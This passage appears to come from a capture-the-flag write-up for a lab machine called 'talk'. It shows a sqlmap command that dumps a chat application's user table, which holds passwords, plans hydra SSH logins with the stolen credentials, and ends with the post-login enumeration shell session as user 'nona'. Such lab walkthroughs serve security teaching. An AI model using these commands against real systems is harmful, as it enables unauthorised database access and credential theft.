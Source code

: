 ```sql
Database: chat                                                                                                               
[3 tables]
+-----------+
| user      |
| chat      |
| chat_room |
+-----------+

```
{: .nolineno}
I got user as a table lets see its contents also 🔻

```bash
└─$ sqlmap -r req.txt -p 'username' -D chat -T user --dump --batch


Database: chat                                                                                                               
Table: user
[8 entries]
+--------+-----------------+-------------+-----------------+----------+-----------+
| userid | email           | phone       | password        | username | your_name |
+--------+-----------------+-------------+-----------------+----------+-----------+
.......
.......
.......
.......
.......
.......
+--------+-----------------+-------------+-----------------+----------+-----------+


```
{: .nolineno}
I have got some usernames and passwords lets save them saperatly and user the `hydra` tool to see if any of these credentials are wortking for ssh login.

![](Pasted%20image%2020250628221437.png)


Lets login as user `nona` and I got to know this user has highest privilege as a user here 🔻

```bash
nona@talk:~$ whoami
nona
nona@talk:~$ id
uid=1000(nona) gid=1000(nona) groups=1000(nona),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
nona@talk:~$ ls -al
total 44
drwxr-xr-x 3 nona nona 4096 Jun 28 06:05 .
drwxr-xr-x 7 root root 4096 Feb 18  2021 ..
-rw-r--r-- 1 nona nona  220 Feb 18  2021 .bash_logout
-rw-r--r-- 1 nona nona 3526 Feb 18  2021 .bashrc
-rwx--x--x 1 nona nona 1920 Feb 18  2021 flag.sh
-rw------- 1 root root 4250 Jun 28 06:05 L1101-6237TMP.txt
drwxr-xr-x 3 nona nona 4096 Feb 18  2021 .local
-rw-r--r-- 1 nona nona  807 Feb 18  2021 .profile
-rw------- 1 nona nona   13 Feb 18  2021 user.txt
-rw------- 1 nona nona   50 Feb 18  2021 .Xauthority
nona@talk:~$ sudo -l
Matching Defaults entries for nona on talk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
```